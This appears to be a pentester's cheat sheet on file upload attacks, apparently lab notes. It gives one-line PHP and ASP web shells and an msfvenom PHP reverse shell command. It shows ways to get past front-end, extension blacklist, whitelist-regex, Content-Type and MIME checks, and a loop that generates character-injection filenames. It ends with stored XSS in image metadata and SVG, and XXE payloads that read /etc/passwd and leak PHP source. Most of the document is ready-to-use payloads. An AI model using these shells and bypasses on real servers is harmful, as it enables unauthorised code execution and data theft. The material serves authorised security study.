# Simple Web Shell

## PHP

```php
<?php system($_REQUEST['cmd']); ?>
```

## ASP

```vbnet
<% eval request('cmd') %>
```

# Simple Reverse Shell

## MSFVenom - PHP

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

# **Bypassing Filters**

## **Client-Side Validation**

### **Back-end Request Modification**



If we capture the upload request with `Burp`, we see the following request being sent by the web application:



 If we modify the `filename` to `shell.php` and modify the content to the web shell we used in the previous section; we would be uploading a `PHP` web shell instead of an image.



**Note:** We may also modify the `Content-Type` of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.

### **Disabling Front-end Validation**

To start, we can click [`CTRL+SHIFT+C`] to toggle the browser's `Page Inspector`, and then click on the profile image, which is where we trigger the file selector for the upload form:



This will highlight the following HTML file input on line `18`:

```html
<input type="file" name="uploadFile" id="uploadFile" onchange="checkFile(this)" accept=".jpg,.jpeg,.png">
```

We can easily modify this and select `All Files` as we did before, so it is unnecessary to change this part of the page.

`onchange="checkFile(this)"`, which appears to run a JavaScript code whenever we select a file, which appears to be doing the  file type validation. To get the details of this function, we can go to
 the browser's `Console` by clicking [`CTRL+SHIFT+K`], and then we can type the function's name (`checkFile`) to get its details:

```jsx
function checkFile(File) {
...SNIP...
    if (extension !== 'jpg' && extension !== 'jpeg' && extension !== 'png') {
        $('#error_message').text("Only images are allowed!");
        File.form.reset();
        $("#submit").attr("disabled", true);
    ...SNIP...
    }
}
```

We can remove this function from the HTML code since its primary use appears to be file type validation, and removing it should not break anything.

## **Blacklist Filters**

### **Blacklisting Extensions**

##### **Source Code**

```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

The code is taking the file extension (`$extension`) from the uploaded file name (`$fileName`) and then comparing it against a list of blacklisted extensions (`$blacklist`**)**

**Tip:** The comparison above is also case-sensitive, and is only considering lowercase extensions. In Windows Servers, file names are case insensitive, so we may try uploading a `php` with a mixed-case (e.g. `pHp`), which may bypass the blacklist as well, and should still execute as a PHP script.

### **Fuzzing Extensions**

**Wordlist**

```html
Seclist/Discovery/Web-Content/Web-Extensions.txt
SecLists/Discovery/Web-Content/extension--web-php.lst
```

we can locate our last request to `/upload.php`, right-click on it, and select `Send to Intruder`. From the `Positions` tab, we can `Clear` any automatically set positions, and then select the `.php` extension in `filename="HTB.php"` and click the `Add` button to add it as a fuzzing position:



If you find a valid extension and you can execute code, now you have to upload the payload with that extension:



if you find the file and the php code is rendered in source html code:

```bash
<!--?php XXXXXXX —>
```

you can not execute php with that extension.

## **Whitelist Filters**

**Source Code**

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

**Note:** The issue here lies within the `regex`, as it only checks whether the file name `contains` the extension and not if it actually `ends` with it. Many developers make such mistakes due to a weak understanding of regex patterns.

### **Double Extensions**

Try to fuzz the upload form with `SecLists/Discovery/Web-Content/web-extensions.txt` to  find what extensions are whitelisted by the upload form.

Then, intercept a normal upload request, and modify the file name to (`shell.jpg.php`), and modify its content to that of a web shell:





This may not always work, as some web applications may use a strict `regex` pattern, as mentioned earlier, like the following:

```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

### **Reverse Double Extension**

For example, the `/etc/apache2/mods-enabled/php7.4.conf` for the `Apache2` web server may include the following configuration:

```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

The above configuration is how the web server determines which files to allow PHP code  execution. It specifies a whitelist with a regex pattern that matches `.phar`, `.php`, and `.phtml`. However, this regex pattern can have the same mistake we saw earlier if we forget to end it with (`$`).

In such cases, any file that contains the above extensions will be allowed PHP code execution, even if it does not end with the PHP extension. For example, the file name (`shell.php.jpg`) should pass the earlier whitelist test as it ends with (`.jpg`), and it would be able to execute PHP code due to the above misconfiguration, as it contains (`.php`) in its name





### **Character Injection**

**Generates permutations of the file name**

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

### Example Attack (White List)

1.- Test and find out allowed extensions.

2.- With Allowed Extensions try to use Reverse Double Extension 

**`fuzzing: shell.FUZZ.jpg, with jpg as allowed extension`**

## **Type Filters**

Only testing the file extension is not enough to prevent file upload attacks

### **Content-Type**

**Source Code**

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

**Fuzzing Content Type**

```bash
cat SecList/Miscellaneous/Web/content-type.txt | grep 'image/' > image-content-types.txt
```



**Note:** A file upload HTTP request has two Content-Type headers, one for the attached file (at the bottom), and one for the full request (at the top). We usually need to modify the file's Content-Type header, but in some cases the request will only contain the main Content-Type header (e.g. if the uploaded content was sent as `POST` data), in which case we will need to modify the main Content-Type header.

### **MIME-Type**

MIME-Type: Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure.

**Checking and Modify MIME-Type**

```
$ echo "this is a text file" > text.jpg 
$ file text.jpg 

> text.jpg: ASCII text

$ echo "GIF8" > text.jpg 
$ file text.jpg

> text.jpg: GIF image data
```



**Note:**  We can try using an `Allowed MIME type with a disallowed Content-Type`, an `Allowed MIME/Content-Type with a disallowed extension`, or a `Disallowed MIME/Content-Type with an allowed extension`

# **Limited File Uploads**

## Stored XSS in Metadata

```
exiftool -Comment=' ">' HTB.jpg
exiftool HTB.jpg
...SNIP...
Comment                         :  ">
```

Note: When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack. Furthermore, if we change the image's MIME-Type to `text/html`, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the 
metadata wasn't directly displayed.

## Stored XSS in SVG File

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1"><rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
	<script type="text/javascript">alert(window.origin);</script>
</svg>
```

## **XXE** in SVG File (Including Files)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (`/etc/passwd`) printed on the page or shown in the page source. Similarly, if the web application allows the upload of `XML` documents, then the same payload can carry the same attack when the XML data is displayed on the web application.

## **XXE** in SVG File (Source Code Disclosure)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
